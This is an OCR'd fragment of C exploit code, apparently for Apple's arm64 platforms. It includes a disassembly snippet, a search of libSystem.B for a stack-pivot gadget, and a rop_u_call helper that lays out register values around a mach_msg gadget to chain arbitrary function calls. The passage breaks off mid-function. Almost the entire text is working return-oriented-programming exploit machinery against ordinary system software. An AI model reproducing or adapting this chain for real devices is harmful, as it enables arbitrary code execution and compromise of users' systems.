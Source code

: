 ```c
    0x1f6e7c5d4 <+60>: eor    x30, x11, x16
    0x1f6e7c5d8 <+64>: eor    x12, x12, x16
    0x1f6e7c5dc <+68>: mov    sp, x12
    0x1f6e7c5e0 <+72>: cmp    w1, #0x0                  ; =0x0
    0x1f6e7c5e4 <+76>: csinc  w0, w1, wzr, ne
    0x1f6e7c5e8 <+80>: ret
#endif
    uint64_t libsystem = get_library_address("libSystem.B");
    stack_pivot = mem_search(libsystem, "\x10\x1e\x40\xf9\x13\x50\x40\xa9\x15\x58\x41\xa9\x17\x60\x42\xa9\x19\x68\x43\xa9\x1b\x70\x44\xa9", 24);

    uint64_t *vals = (uint64_t *)&main_payload[rop_offset];
    vals[0x10/8] = stack_pivot;

    uint64_t *control_regs = vals;
    control_regs[0x18/8] = 0xdeadc0de;               // X22 -> X3
    control_regs[0x20/8] = 0xdeadc0de;               // X23
    control_regs[0x28/8] = 0xdeadc0de;               // X24
    control_regs[0x30/8] = 0xdeadc0de;                      // X25 -> X2
    control_regs[0x38/8] = 0xdeadc0de;               // X26
    control_regs[0x40/8] = 0xdeadc0de;               // X27
    control_regs[0x48/8] = 0xdeadc0de;               // X28

    control_regs[0x50/8] = 0xdeadc0de;                // X10 -> x29
    control_regs[0x58/8] = lr;                     // where to jump next ?
    control_regs[0x60/8] = stack_pointer;           // what value you want SP points to ?

}

static inline void rop_u_call(uint64_t func,uint64_t x0,uint64_t x1,uint64_t x2,
                              uint64_t x3,uint64_t x4,uint64_t x5,uint64_t lr)
{

    // BACK TO THIS LATER
    if((rop_offset+stack_offset) > getpagesize()/8) {
        printf("[*] You cannot ROP anymore, gtfo\n");
        exit(0);;
    }

    uint64_t stack_off = stack_offset;
    uint64_t *vals = (uint64_t *)&main_payload[rop_offset+stack_off];

    uint64_t *control_regs = vals;
    uint64_t *sp =(uint64_t *)&main_payload[rop_offset+stack_off];

    sp[0x50/8] = 0xdeadbeef;    // X29
    sp[0x58/8] = mach_msg_gadget;    // X30

    sp[0x40/8] = x5;        // X20
    sp[0x48/8] = func;      // X19 copied into x6 (used as BR in our chain)

    sp[0x30/8] = x3;        // X22
    sp[0x38/8] = x4;        // X21

    // it's better to avoid controlling x7, it affects mach_msg() behaviour
    sp[0x20/8] = 0x24242424;        // X24 : this makes mach_msg jumps to mach_msg+200
    sp[0x28/8] = 0xdeadc0de;        // X23

    sp[0x10/8] = x1;            // X26 will be copied into X1
    sp[0x18/8] = x2;    // X25

    sp[0/8] = 0xdeadc0de;    // X28
    sp[8/8] = 0xdeadc0de;    // X27
```
